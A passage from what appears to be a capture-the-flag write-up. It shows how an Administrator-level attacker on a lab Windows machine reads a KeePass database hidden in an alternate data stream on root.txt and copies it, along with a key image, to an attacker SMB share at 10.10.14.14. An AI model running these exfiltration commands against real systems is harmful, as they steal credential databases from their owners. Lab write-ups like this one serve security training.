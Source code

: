 So the database is an Alternative Data Stream on `root.txt`. I’ll also need the key file, `\Users\Administrator\Pictures\admin.png`.

### Collect Files

Now I need to bring the KeePass database and the key file back to my machine. But it’s surprisingly difficult to copy a file from an ADS with native Windows tools. One path would be to get a meterpreter shell, and then just use that to download the file.

`bash` is also on the box, and I can enter a bash shell:

```

C:\Users\Administrator\Desktop>\progra~1\bash\bash.exe
id
uid=1 gid=1
pwd
C:/Users/Administrator/Desktop

```

Now I can cat the ads:

```

cat root.txt:Zone.Identifier > ../appdata/local/temp/a.txt
md5sum root.txt:Zone.Identifier ../appdata/local/temp/a.txt
54bd2170e5e671b07046b2b77ce97155 *root.txt:Zone.Identifier
54bd2170e5e671b07046b2b77ce97155 *../appdata/local/temp/a.txt

```

Now exit out of bash, and get the files:

```

C:\Users\Administrator\Desktop>copy ..\appdata\local\temp\a.txt \\10.10.14.14\share\db.kdbx
copy ..\appdata\local\temp\a.txt \\10.10.14.14\share\db.kdbx
        1 file(s) copied.
        
C:\Users\Administrator\Desktop>copy ..\Pictures\admin.png \\10.10.14.14\share\admin.png
copy ..\Pictures\admin.png \\10.10.14.14\share\admin.png
        1 file(s) copied.

```

Looks like the files came through:

```

root@kali# file share/admin.png share/db.kdbx 
share/admin.png: PNG image data, 251 x 282, 8-bit/color RGBA, non-interlaced
share/db.kdbx:   Keepass password database 2.x KDBX

```

### Break Password

